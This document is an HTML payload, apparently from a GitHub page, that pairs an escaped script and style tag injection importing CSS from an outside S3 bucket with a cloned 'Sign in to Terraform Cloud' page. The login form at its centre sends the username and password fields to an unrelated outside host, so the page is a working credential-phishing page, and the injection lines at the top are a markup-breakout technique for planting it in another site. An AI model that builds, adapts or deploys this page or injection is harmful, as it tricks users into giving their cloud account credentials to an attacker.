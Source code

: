 
<div style=""><\s\c\ript\>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="<\/sc\rip\t><\s\c\ript\><\s\c\ript\>"<\s\c\ript\>''"<\/s\c\ript\><\s\c\ript\>"<\/s\c\ript\>
  <style></style>

<div style=""><style>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="</style>
  
    <div class="columns is-centered is-vcentered">
  <div class="column is-full-mobile is-fixed-medium">

    <section class="section">

        <div class="box session-box session-box-top session-box-top-cloud">
    <img src="https://d3apqp432l5mdq.cloudfront.net/CIRC-51779-348ab1e/assets/terraform-cloud-logo-81769debed7594dfa089baf99d4a402aedadaaf69303482f37fac40d39e7c047.svg" alt="Terraform Cloud">
  </div>


      <div class="box session-box session-box-bottom">
        <h2 class="session-title is-size-5" data-cy="title">Sign in to Terraform Cloud</h2>

        


          <div>
            <form class="new_user" id="new_user" action="https://git.bullsecurity.co" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="oLvVZxkRIXC35v/4Gf8JHKWAx/oLcmuU4hEHwjGPajF1nj7MemTDt8FreDjKFtFyQNFIbvy3GLyVuphhWISZgA==">

  <div class="field">
    <label class="label" for="user_login">Username or email</label>
    <input autofocus="autofocus" class="input" data-cy="login-field" type="text" name="user[login]" id="user_login">
  </div>

  <div class="field">
    <label class="label" for="user_password">Password</label>
    <input class="input" data-cy="password-field" type="password" name="user[password]" id="user_password">
    <div class="help">
      <a href="/auth/new">Forgot password?</a>
    </div>
  </div>

  <div class="field">
    <input type="submit" name="commit" value="Sign in" class="button is-fullwidth is-primary " data-cy="submit">
  </div>
</form>
          </div>

      </div>

      <div>
          <p class="has-margin-bottom">
    Need to sign up? Create your <a href="/signup/account">free account</a>.
  </p>
  <p>
    View <a href="https://www.hashicorp.com/products/terraform/offerings">Terraform Offerings</a> to find out which one is right for you.
  </p>


      </div>


    </section>

  </div>
</div>
